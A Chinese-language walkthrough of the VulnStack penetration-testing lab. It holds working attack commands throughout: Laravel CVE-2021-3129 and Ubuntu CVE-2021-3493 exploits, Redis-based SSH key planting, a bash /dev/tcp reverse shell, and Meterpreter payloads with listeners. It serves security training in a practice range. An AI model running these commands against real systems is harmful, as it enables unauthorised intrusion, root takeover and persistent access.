## 实验环境

VulnStack 是红日安全团队开源的内网渗透靶场，通常由 DMZ 区 Web 服务器、内网 Ubuntu 和 Windows 主机组成。

| 角色 | 系统 | 账号 / 密码 | 说明 |
| --- | --- | --- | --- |
| 边界 Web | Ubuntu | web / web2021 | DMZ 区，对外提供 Web 服务 |
| 内网主机 | Ubuntu | ubuntu / ubuntu | 第二层网络 |
| 域内主机 | Windows 7 | Administrator / Whoami2021 | 运行通达 OA |
| 域用户 | - | whoami / Whoami2021、bunny / Bunny2021、moretz / Moretz2021 | 域内普通用户 |
| 通达 OA | - | admin / admin657260 | Web 管理后台 |

> 以上均为靶场默认弱口令，仅用于本地实验，请勿在真实环境使用。

## 环境配置

先给虚拟机配置两块网卡，分别连接外网和内网。



按顺序启动各层服务。

DMZ 区的 Ubuntu 需要启动 Nginx 和 Redis：

```bash
sudo redis-server /etc/redis.conf
sudo /usr/sbin/nginx -c /etc/nginx/nginx.conf
sudo iptables -F
```

第二层网络的 Ubuntu 需要启动 Docker 容器：

```bash
sudo service docker start
sudo docker start 8e172820ac78
```

第三层网络的 Windows 7 启动通达 OA：

```text
C:\MYOA\bin\AutoConfig.exe
```

## 端口扫描

从攻击机扫描边界 Web 服务器，确认开放端口。



## CVE-2021-3129 漏洞利用

Laravel 开启了 Debug 模式时，Ignition 组件的 `solution` 参数存在反序列化漏洞（CVE-2021-3129），可以造成远程代码执行。

使用公开 EXP：

```text
https://github.com/SecPros-Team/laravel-CVE-2021-3129-EXP
```



注意该 EXP 需要使用 V2.92 版本才能成功。



利用成功后拿到边界 Web 服务器的 shell。



## Redis 写公钥

边界服务器上运行着未授权的 Redis，可以通过写入 SSH 公钥获取 root 权限。

先生成密钥对，并把公钥前后加上换行，避免覆盖 Redis 原有内容：

```bash
ssh-keygen -t rsa
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > 1.txt
cat 1.txt | redis-cli -h 192.168.71.60 -p 6379 -x set hello
```

修改 Redis 的备份路径和文件名，把内容写到目标主机的 `authorized_keys`：

```bash
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```





写入成功后直接使用私钥登录：

```bash
ssh root@192.168.71.60
```



## 上线 Web1

在边界服务器上上传并运行 Meterpreter 木马。



启动 Web 服务，方便内网主机下载木马。



访问下载地址，确认木马可以下载。



在攻击机启动监听：

```bash
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.36.129
set lport 6666
run
```

在边界服务器上赋予执行权限并运行：

```bash
chmod +x ubuntu.elf
./ubuntu.elf
```





### 添加路由

拿到会话后，先查看边界服务器的内网 IP，再把它所在网段的路由加入 MSF。





## 内网横向

### 反弹 Laravel 的 shell

在 Ubuntu 上监听 1234 端口，把 Laravel 的 shell（`192.168.52.20`）反弹到 Ubuntu（`192.168.52.10`）：

```bash
nc -lvp 1234
```

在 Laravel 的 shell 中执行：

```bash
bash -c 'exec bash -i >& /dev/tcp/192.168.52.10/1111 0>&1'
```







### SUID 提权

当前用户是 `www-data`，先查找系统中带 SUID 位的文件：

```bash
find / -perm -u=s -type f 2>/dev/null
```



发现 `demo.c` 的源码中调用了 `ps` 命令，且没有使用绝对路径，可以通过修改 `$PATH` 劫持命令执行。



构造同名恶意程序并修改环境变量，从而获得 root 权限的 shell。



### 挂载磁盘获取凭据

把 Laravel 的高权限 shell（`192.168.52.20`）反弹到 Ubuntu 18（`192.168.52.10`）中。







查看磁盘和设备文件：

```bash
fdisk -l
lsblk
```



把 `/dev/sda1` 挂载到自己创建的目录：

```bash
mkdir /hello
mount /dev/sda1 /hello
```



挂载后查看 `home` 目录，发现 `ubuntu` 用户。



### 写入 SSH 公钥

生成 SSH 密钥，把公钥写入目标用户的 `authorized_keys`：

```bash
cp -avx /hello/home/ubuntu/.ssh/id_rsa.pub /hello/home/ubuntu/.ssh/authorized_keys
echo > /hello/home/ubuntu/.ssh/authorized_keys
echo 'ssh-rsa AAAA...（你的公钥） root@ubuntu' > /hello/home/ubuntu/.ssh/authorized_keys
cat /hello/home/ubuntu/.ssh/authorized_keys
```

>`-avx` 表示连同权限一起复制。







### CVE-2021-3493 提权

查看系统信息，确认存在 CVE-2021-3493（Ubuntu OverlayFS 本地提权）。



EXP 地址：

```text
https://github.com/briskets/CVE-2021-3493/blob/main/exploit.c
```

把源码下载到目标机器，编译并执行：

```bash
cd /tmp
vim exploit.c
gcc exploit.c -o exploit
chmod +x exploit
./exploit
```



提权成功后，回到 Meterpreter 会话继续操作：

```bash
run autoroute -s 192.168.52.0/24
run autoroute -p
background
msfvenom -p linux/x64/meterpreter/reverse_tcp lport=5555 -f elf -o shell.elf
sessions 1
upload /home/kali/shell.elf /tmp/shell.elf
background
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.43.203
set lport 5555
run
```





在目标机器上开启下载服务，把 `shell.elf` 下载并执行。





## 总结

VulnStack 的入口是 Laravel 的远程代码执行，边界服务器上的 Redis 未授权访问又提供了写公钥的提权路径。进入内网后，SUID 路径劫持、磁盘挂载读取凭据、内核漏洞提权都是常见手法，打好基础比记 payload 更重要。

::: warning 声明
本文仅用于授权的安全测试与教学环境，请勿对未授权目标进行测试。
:::
